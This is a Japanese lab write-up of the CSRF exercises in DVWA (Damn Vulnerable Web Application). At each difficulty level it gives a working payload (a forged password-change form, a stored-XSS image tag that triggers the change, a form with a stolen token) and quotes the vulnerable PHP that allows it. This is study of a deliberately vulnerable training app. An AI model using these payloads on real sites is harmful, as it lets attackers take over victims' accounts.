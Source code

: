 # CSRF

<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
<details>
<summary>Table of Contents</summary>

- [CSRF](#csrf)
  - [Low level](#low-level)
    - [実験結果](#実験結果)
    - [原因](#原因)
  - [Medium Level](#medium-level)
    - [実験結果](#実験結果-1)
    - [原因](#原因-1)
  - [High level](#high-level)
    - [実験結果](#実験結果-2)
    - [原因](#原因-2)

</details>
<!-- END doctoc generated TOC please keep comment here to allow auto update -->

## Low level

### 実験結果

adminユーザでログインしている状態にしておく。

以下のHTML（[csrf.html](./csrf.html）を作成して、Formを送信する。

```html
<form action="http://localhost/vulnerabilities/csrf/" method="GET">
    New password:<br />
    <input type="password" AUTOCOMPLETE="on" name="password_new" value="attack"><br />
    Confirm new password:<br />
    <input type="password" AUTOCOMPLETE="on" name="password_conf"  value="attack"><br />
    <br />
    <input type="submit" value="Change" name="Change">
</form>
```

これで遷移した画面に 「Password Changed」と表示されるはずであり、ログアウトすると、以前のパスワードではログインできなくなっているはずである。

### 原因

該当のソースコードは以下になる。

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update the database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

原因としては上記を見ればわかるように GET リクエストのクエリ文字列に対して、送信元に対する検証処理を何も対処していないため、異なるOriginからのフォーム送信でもパスワードを変更できてしまうことである。

## Medium Level

### 実験結果

DVWAの XSS（Stored）にアクセスして、Name を入力する欄の入力文字数制限を1000程度に改変して、以下を入力する。

```html
<img src="/vulnerabilities/csrf/?password_new=attack&password_conf=attack&Change=Change#">
```

Message には何か適当にコメントを追加しておく。

これで 「Sign Guestbook」を実行して、ログアウトすると以前のパスワードではログインできない状態になってしまっている。

### 原因

該当するソースコードは以下になる。

```php

<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
            $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
            $pass_new = md5( $pass_new );

            // Update the database
            $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

            // Feedback for the user
            echo "<pre>Password Changed.</pre>";
        }
        else {
            // Issue with passwords matching
            echo "<pre>Passwords did not match.</pre>";
        }
    }
    else {
        // Didn't come from a trusted source
        echo "<pre>That request didn't look correct.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

上記のコードでは、`stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false` によってサーバに送信されたHTTPリクエストのRefererに格納されている値から、サーバ名称の名称が含まれているのかを大文字小文字を区別せずに判定している。

つまり XSS によって悪意のあるURLやスクリプトの送信元自体をサーバ側にしてしまえば、後は 攻撃者が設定したURLを投稿し、リクエストが発行されることで CSRF を実行することが可能となる。

## High level

### 実験結果

あくまでもユーザに発行されたトークンを盗み出せる状況であると想定する。

adminユーザでログインしている状態にし、CSRFを実験するページに遷移する。

以下のHTML（[csrf.html](./csrf-token.html）を作成して、Formを送信する。

```html
<form action="http://localhost/vulnerabilities/csrf/" method="GET">
    New password:<br />
    <input type="password" AUTOCOMPLETE="on" name="password_new" value="attack"><br />
    Confirm new password:<br />
    <input type="password" AUTOCOMPLETE="on" name="password_conf"  value="attack"><br />
    <br />
    <input type="submit" value="Change" name="Change">
    <input type="hidden" name="user_token" value="7e4b667165ee002a2fa9955630e93032">
</form>
```

これで遷移した画面に 「Password Changed」と表示されるはずであり、ログアウトすると、以前のパスワードではログインできなくなっているはずである。


### 原因

該当するソースコードは以下になる。

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update the database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```



